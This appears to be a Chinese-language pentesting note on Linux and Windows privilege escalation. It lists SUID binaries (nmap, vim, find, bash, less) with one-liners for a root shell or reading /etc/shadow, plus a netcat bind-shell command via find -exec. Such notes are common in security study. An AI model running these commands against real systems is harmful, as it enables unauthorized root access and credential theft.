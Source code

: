 - bash脚本文件的SUID标志位是无效的

-  `ls -lh /usr/bin/find` 查看find文件是否有s标志位

- 已知的可用来提权的linux可行性的文件列表如下：

    ```bash
    - Nmap：
    	- namp -i；!sh  直接获得rootshell
    	- exploit/unix/local/setuid_nmap  
    	- :shell
    - Vim：
    	- Vim的主要用途是用作文本编辑器。 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件
    	- vim /etc/shadow
    	- # Press ESC key
    	- :set shell=/bin/sh
    - find：
    	- touch test；find test -exec whoami  \;   whoami就会以root身份运行
    	- 可以利用nc来反弹rootshell，find test -exec netcat -lvp 5555 -e /bin/sh \;
    - Bash：bash -p
    - more
    - Less：less file，!/bin/sh
    - nano
    - cp
    - pip
    ```

### **Sudo提权**

### **Linux配置错误提权**

### **定时任务提权**

### **找存储的明文用户名，密码**

### 其他

- **密码复用提权：**我们如果在主机上找到了其他应用或数据库的密码，那么很有可能root用户也用该密码。那么就可以尝试一下 su root 来提权了。

- **第三方服务提权**

- - 我们还可以查看主机上其他的第三方服务，利用第三方服务的漏洞可以拿到主机的      root      权限。比如如果主机的mysql或tomcat是用root权限启动的，而我们又通过漏洞拿到了mysql或tomcat的权限，就相当于获得了root的权限。

## windows提权：

meterpreter的模块和内核漏洞提权，看meterpre的笔记里面写的很详细

在Windows系统中，权限大概分为四中，分别是：

1. - User：普通用户权限
    - Administrator：管理员权限，可以利用Windows机制提升为System权限
    - System：系统权限
    - TrustedInstaller：Windows中最高权限。有些文件，连System权限也无法修改，只能TrustedInstaller权限修改。
